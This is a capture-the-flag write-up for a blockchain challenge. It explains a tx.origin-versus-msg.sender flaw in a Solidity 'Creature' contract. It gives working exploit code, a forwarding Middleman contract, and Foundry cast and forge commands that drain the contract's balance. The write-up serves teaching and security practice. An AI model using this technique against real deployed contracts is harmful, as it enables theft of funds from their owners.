

# Web CTF Challenge: Distract and Destroy

## Challenge Description
After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance.

This time we are provided with a **blockchain challenge**.

## Setup
Reading the instructions from the site we are given:
- A private key
- The addresses of the contracts 
- Our address
- The RPC URL to which we will make the calls

## Contract Analysis

### Setup Contract
Let's take a look first at the smart contracts. The setup contract deploys our Creature contract and has an `isSolved` function:

```solidity
function isSolved() public view returns (bool) {
    return address(TARGET).balance == 0;
}
```

This function tells us that in order to win the challenge we should **empty the Creature contract**.

### Creature Contract
Let's dive into the creature contract.

#### Loot Function
We have to call the `loot` function in order to empty the contract:

```solidity
function loot() external {
    require(lifePoints == 0, "Creature is still alive!");
    payable(msg.sender).transfer(address(this).balance);
}
```

However, we can only loot when the creature has **0 life points**.

#### Attack Function
To attack the creature we can call the function:

```solidity
function attack(uint256 _damage) external {
    if (aggro == address(0)) {
        aggro = msg.sender;
    }

    if (_isOffBalance() && aggro != msg.sender) {
        lifePoints -= _damage;
    } else {
        lifePoints -= 0;
    }
}
```

Which calls:

```solidity
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

## Vulnerability Analysis

At the first call of the `attack` function, the `aggro` is set to the message sender. Then, the `_isOffBalance()` checks if the `tx.origin` is different from the `msg.sender`. If it does **AND** the `aggro` is different from the message sender, then the damage is done.

### Key Insight
The key point here is that:
- `tx.origin` is the address of the one who initiated the transaction
- `msg.sender` returns the address of the one who sent the transaction

If we write a **middleman contract** which we can call to call the function `attack` in the Creature contract, the `tx.origin` and `msg.sender` will be different.

However, we should first attack with our private key so the `aggro` will be permanently set to our address, because otherwise it would be set to our contract address and we could not attack.

## Exploitation

### Middleman Contract
The middleman contract would look something like:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Middleman {
    address public target = 0x9ADAFC44200a10b29583438397B6A81A969E48cc;

    function attack(uint256 _damage) external {
        (bool success, bytes memory result) = target.call(abi.encodeWithSignature("attack(uint256)", _damage));
        require(success, string(result));
    }
}
```

### Step-by-Step Solution

In order to do that we will use **Foundry's** tool `cast`.

#### Step 1: Set Aggro
First, we will set our address as the aggro:
```bash
cast send $ContractAddress "attack(uint256)" 1000 --private-key $PRIVATE_KEY --rpc-url http://$IP:$PORT/rpc
```

#### Step 2: Deploy Middleman Contract
Secondly, we will deploy our middleman contract:
```bash
forge create $PATH_TO_MIDDLEMAN_CONTRACT --rpc-url $RPC_URL --private-key $PRIVATE_KEY --broadcast
```

And the contract is deployed successfully:



#### Step 3: Attack Through Middleman
Now, we only need to call the function in our newly deployed contract so it will attack the target contract:
```bash
cast send $MIDDLEMAN_CONTRACT_ADDRESS "attack(uint256)" 1000 --rpc-url http://$IP:$PORT/rpc --private-key $PRIVATE_KEY
```

#### Step 4: Loot the Contract
After that, we can loot the contract:
```bash
cast send $TARGET_CONTRACT_ADDRESS "loot()()" --private-key $PRIVATE_KEY --rpc-url http://$IP:$PORT/rpc
```

Now, the target contract is empty and the flag is revealed back in browser.

---

**Vulnerability Type:** `tx.origin` vs `msg.sender` confusion  
**Key Technique:** Middleman contract to manipulate call context  
**Tools Used:** Foundry (cast, forge)  